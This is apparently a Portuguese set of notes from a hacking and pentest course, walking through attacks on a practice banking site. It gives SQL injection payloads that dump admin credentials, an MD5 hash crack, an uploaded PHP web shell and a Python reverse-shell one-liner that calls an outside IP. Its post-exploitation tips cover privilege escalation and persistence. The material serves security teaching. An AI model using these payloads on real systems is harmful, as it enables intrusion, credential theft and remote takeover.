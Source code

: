 ﻿# Introdução ao Hacking e Pentest

Estas são as anotações das partes práticas do curso [Introdução ao Hacking e Pentest](https://solyd.com.br/ead/course/introducao-ao-hacking-e-pentest/) oferecido pela Solyd. Todos os passos são executados no site desenvolvido exclusivamente para isso: http://www.bancocn.com.

## Exploração

Nesta etapa o mais importante que temos a descobrir é:
- Se usarmos <code>'</code> como id no URL, recebemos um erro de sintaxe do SQL, então podemos tentar explorar vulnerabilidades do SQL;
- Pelo arquivo /robots.txt, descobrimos a existência da página /admin.

## SQL Injection

Vamos descobrir quantas colunas tem usando o comando SQL ORDER BY Keyword, ele é usado para ordenar os resultados em ordem ascendente ou descendente de acordo com os valores de determinada coluna.
Então por exemplo se queremos ordenar o resultado o resultado pelos valores da coluna 1 e comentar o que viria depois do código usando --, então vamos passar <code>1 ORDER BY 1--</code>. Vamos inserir os comandos sempre após <code>www.bancocn.com/cat.php?id=</code>.
<pre> 
1 ORDER BY 1-- :ok
1 ORDER BY 2-- :ok
1 ORDER BY 3-- :ok
1 ORDER BY 4-- : Unknown column '4' in 'order clause'
</pre>

Então agora sabemos que temos 3 colunas. O comando UNION é usado para combinar o resultados de múltiplos SELECTS, então vamos adicionar uma linha ao resultado.  Vai ser adicionado no final do resultado, mas ele lê o primeiro resultado, então vamos usar o sinal negativo para inverter a ordem dos resultados, por exemplo: <code>-1 UNION SELECT 1,2,3</code>. Podemos usar então database() para obtermos o nome do banco de dados onde as informações são exibidas na tela: 

<code>-1 UNION SELECT 1,2,database()</code>.

Com isso sabemos o nome do nosso banco de dados: bancocn. Para sabermos todas tabelas do banco de dados podemos usar: 

<code>-1 UNION SELECT 1,2, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema="bancocn"</code>

Basicamente, estamos inserindo uma linha onde as duas primeiras colunas são 1 e 2 respectivamente, e o terceiro que é o que será exibido na tela, então concatenamos o resultado, que é a busca na tabela tables no banco de dados information_schema que pertence ao banco de dados bancocn, de acordo com o valor na coluna table_schema.

Obtemos agora os nomes das tabelas do nosso banco de dados: categories,pictures,stats,users. Então com os nomes das tabelas escolhemos ver melhor a tabela users, usando um código parecido:

<code>-1 UNION SELECT 1,2, GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema="bancocn" AND table_name="users"</code>

As colunas são: id,login,password. Então agora olhamos a tabela das colunas e olhamos onde o banco de dados é bancocn e a tabela é users.

Então podemos agora simplesmente exibir, o login senha:
- <code>-1 UNION SELECT 1,2, login FROM bancocn.users</code>
- <code>-1 UNION SELECT 1,2, password FROM bancocn.users</code>

Obtemos então o usuário (admin) e a senha (7b71be0e85318117d2e514ce2a2e222c).

Testamos uma criptografia padrão (MD5), usando o [MD5 Decrypter](https://www.md5online.org/) desciptografamos a senha (senhafoda) e conseguimos acesso ao painel de admin descoberto anteriormente.

## Shell reversa

Olhando a estrutura dos endereços das imagens carregadas, podemos acessar o diretório dos arquivos /admin/uploads. Lá podemos então abrir um arquivo com extensão php que enviaremos ao servidor.

Aproveitando que possui um filtro de extensões que barra arquivos .php, mas permite .php5, vamos carregar um arquivo PHP5 (terminal.php5) que recebe comandos e os executa no terminal.  Por exemplo para rodar um <code>ls </code> poderíamos usar:
<code>?comando=ls</code>, então o endereço de forma completa ficaria <code>/admin/uploads/terminal.php5?comando=ls</code>.

Neste ponto, já temos acesso ao computador, mas é mais eficiente utilizarmos uma shell reversa. Uma versão em python pode ser retirada do [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

<code>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("179.189.157.42",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' </code>

Substituimos o IP pelo endereço da nossa máquina, que pode ser visto em [What is my IP](https://whatismyip.com.br/) por exemplo. Agora podemos utilizar o netcat ([versão para Windows](https://eternallybored.org/misc/netcat/) disponibilizado por Jernej Simoncic) para enviar comandos para nossa máquina.

Neste ponto, nós invadimos o servidor web e podemos ir pro processo de pós-exploração.

## Pós-Exploração

Para termos um pouco mais de liberdade, podemos tentar utilizar o módulo do python chamado pty (Pseudo Teletype) para obtermos algo como um TTY(Teletype). Ele possui uma função chamada spawn que segundo sua descrição "cria um processo e conecta seu terminal de controle com a entrada e saída padrão do atual processo. Isso é normalmente usado para confundir programas que insistem em ler do terminal de controle."

<code> python -c "import pty; pty.spawn('/bin/bash')" </code>

Ou seja, um pseudo-terminal, ao invés de comunicar diretamente com um "terminal real", transfere a entrada e saída para outro programa. A ideia é avançar de nosso shell básico, para algo como um TTY. 

Após isso podemos explorar vulnerabilidades para ganhar privilégios, como a [Dirty COW](https://dirtycow.ninja/) que está no kernel Linux desde 2007 e foi anunciado uma correção apenas em 2016. Podemos buscar também configurar para que o servidor seja inicializado sozinho, por exemplo editando o arquivo <code>.bashrc</code>.

Também podemos buscar outras máquinas na rede que tenham vulnerabililidades ou que nossa máquina atual tenha acesso, ex.: chaves SSH.

# Bônus: construindo a Shell Reversa

Vamos olhar trecho a trecho o código em python que passamos em uma linha para rodar nossa shell reversa. Criamos um script python chamado [clienteTCP](https://github.com/SapoGitHub/Repositorio-Geral/blob/master/Introdu%C3%A7%C3%A3o%20ao%20Hacking%20e%20Pentest/clienteTCP.py) melhor comentado para esta tarefa.

Primeiro, soquete é o ponto-final de um fluxo de comunicação entre 2 aplicativos através da rede. Portanto para 2 aplicativos temos 2 pontos finais, chamados normalmente de
- Servidor: considerado a máquina 'principal', ela envia os comandos ;
- Cliente: responsável por se conectar no servidor e receber e executa comandos.

Queremos então criarmos um cliente para rodar em nossa máquina. Para isso precisamos definir algumas coisas:
- A representação do endereço (Família de protocolo): Usamos o AF_INET (domínio da internet) é uma família de endereços onde usamos um par de valores: (servidor, porta), onde:
	- servidor: é um hostname de um domínio de internet (daring.cwi.nl) ou um endereço IP;
	- porta: um inteiro.
- Tipo: especifica a semântica da comunicação e usamos o SOCK_STREAM que fornece uma conexão sequencial, confiável e bidirecional. Ela indica que nosso soquete vai ser do tipo TCP.

Definido o protocolo que vamos utilizar para o envio de informações e como vamos representar o endereço, podemos então fornecer o IP e porta para se conectar ao nosso servidor.

```
soquete=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  #Configura o socket
soquete.connect(("127.0.0.1",6666))                       #Conecta em nosso servidor
```

O próximo passo é lidarmos com os descritores de arquivos, isto é um indicador abstrato para acessar um arquivo. Cada processo Unix tem três descritores de arquivos padrões, representados por inteiros:
- 0: Entrada padrão;
- 1: Saída padrão;
- 2: Erro padrão.

Então o nosso próximo passo, é pegarmos o descritor de arquivo do soquete, fazemos isso com o comando:

<code>das=soquete.fileno()                                        #Retorna o descritor do soquete</code>

E fazermos os descritores de arquivo padrões indicarem para o mesmo lugar, ou seja, o soquete:
```
os.dup2(das,0)						#Duplica o descritor 'das' para 0                                    
os.dup2(das,1)						#Duplica o descritor 'das' para 1
os.dup2(das,2)						#Duplica o descritor 'das' para 2
```

Agora então, as entradas e saídas de nosso processo serão recebidas e enviadas através do nosso soquete, ou seja a comunicação é feita com nosso servidor. Por fim, nos falta executar de fato a shell(<code>/bin/sh</code>) apenas:

<code>subprocess.call(["/bin/sh"])			#Executamos a shell</code>

Ainda podemos usar o argumento <code>-i</code> para forar a shell a rodar de interativo. Nesse caso usaríamos <code>subprocess.call(["/bin/sh","-i"])</code>. 